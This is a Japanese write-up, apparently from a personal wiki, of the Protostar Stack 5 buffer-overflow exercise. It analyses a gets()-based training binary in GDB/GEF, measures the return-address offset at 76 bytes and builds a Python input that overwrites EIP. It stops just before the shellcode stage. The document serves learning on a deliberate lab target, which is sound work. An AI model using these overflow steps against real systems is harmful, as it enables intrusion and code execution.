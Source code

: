 <!-- TITLE: Stack 5 -->
<!-- SUBTITLE: A quick summary of Stack 5 -->

# 問題

## 問題のパス

`/opt/protostar/bin/stack5`

## 問題のソースコード

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

非常にシンプルな仕上がり

# ファイルのコピー(scp)

```shell
$ scp Protostar:/opt/protostar/bin/stack5 .
$ ls | grep stack5
stack5
```

このように`scp`してローカルで基礎解析をしたほうが楽

# GDB解析 その1

## バッファオーバーフローを試す

例によって[`gef`](https://github.com/hugsy/gef/)を使う

```shell
$ which gef
gef: aliased to gdb -q --ix $HOME/gef/gef.py
$ gef ./stack5
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
⋮
Reading symbols from ./stack5...done.
gef➤  disas main
Dump of assembler code for function main:
   0x080483c4 <+0>:	push   ebp
   0x080483c5 <+1>:	mov    ebp,esp
   0x080483c7 <+3>:	and    esp,0xfffffff0
   0x080483ca <+6>:	sub    esp,0x50
   0x080483cd <+9>:	lea    eax,[esp+0x10]
   0x080483d1 <+13>:	mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:	call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:	leave  
   0x080483da <+22>:	ret    
End of assembler dump.
```

コードからもわかるとおり、`gets`関数が入力されたバイト数のチェックをしないため、バッファオーバーフローの脆弱性が存在する
breakpointを`gets`呼び出しの直後に貼って、文字列パターンを生成する
このパターンは、のちにオフセットの長さを測るのに用いる

```shell
gef➤  b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  r <<< $(echo -n 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab')
⋮
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
⋮
$eip   : 0x61616174 ("taaa"?)
⋮
```

`$eip` (次の命令のアドレスを格納するレジスタ) が明らかに通常ではありえない値に書き換えられていることがわかった

## オフセットの値

次にこの*"taaa"*の文字列が`$eax`からどれほどアドレスが離れているかを調べる

```shell
gef➤  pattern search 0x61616174
[+] Searching '0x61616174'
[+] Found at offset 76 (little-endian search) likely
[+] Found at offset 73 (big-endian search) 
```

このバイナリはリトルエンディアンである

```shell
gef➤  elf-info 
Magic                 : 7f 45 4c 46
Class                 : 0x1 - 32-bit
Endianness            : 0x1 - Little-Endian
Version               : 0x1
OS ABI                : 0x0 - System V
ABI Version           : 0x0
Type                  : 0x2 - Executable
Machine               : 0x3 - x86
Program Header Table  : 0x00000034
Section Header Table  : 0x00004d28
Header Table          : 0x00000034
ELF Version           : 0x1
Header size           : 0 (0x0)
Entry point           : 0x08048310
``` 

よって、オフセットは **76**


# GDB解析 その2
先ほどとは入力文字列を変えて実行してみる
オフセットが **76** なので、

```shell
gef➤  r <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')
Starting program: /home/mkm/Develop/protostar/bin/stack5 <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')

Breakpoint 1, main (argc=0x42424242, argv=0x42424242) at stack5/stack5.c:11
⋮
gef➤  telescope $esp l30
0xffffd270│+0x00: 0xffffd280  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $esp
0xffffd274│+0x04: 0x0000002f ("/"?)
0xffffd278│+0x08: 0xf7e05dc8  →  0x00002b76 ("v+"?)
0xffffd27c│+0x0c: 0xf7fd31b0  →  0xf7df9000  →  0x464c457f
0xffffd280│+0x10: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $eax
0xffffd284│+0x14: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd288│+0x18: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd28c│+0x1c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd290│+0x20: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd294│+0x24: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd298│+0x28: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd29c│+0x2c: 0x41414141
0xffffd2a0│+0x30: 0x41414141
0xffffd2a4│+0x34: 0x41414141
0xffffd2a8│+0x38: 0x41414141
0xffffd2ac│+0x3c: 0x41414141
0xffffd2b0│+0x40: 0x41414141
0xffffd2b4│+0x44: 0x41414141
0xffffd2b8│+0x48: 0x41414141
0xffffd2bc│+0x4c: 0x41414141
0xffffd2c0│+0x50: 0x41414141
0xffffd2c4│+0x54: 0x41414141
0xffffd2c8│+0x58: 0x41414141	 ← $ebp
0xffffd2cc│+0x5c: 0x1cedbeef
0xffffd2d0│+0x60: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d4│+0x64: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d8│+0x68: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2dc│+0x6c: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e0│+0x70: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e4│+0x74: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x1cedbeef in ?? ()
⋮
$eip   : 0x1cedbeef
⋮
```

このように、適切なオフセットとパディング(今回は*"A"*)を用いることで、`$eip`を任意の値に書き換えられることがわかった

## どこに書き換えるか？

`$eip`を自由に書き換えられるということは、次に飛ばすアドレスを好きにできることである
この`$eip`を書き換えたスタックのアドレスの直後にshellcodeを仕込んで見る

ただし、`gets`を用いた際に新たにshellを開こうとすると、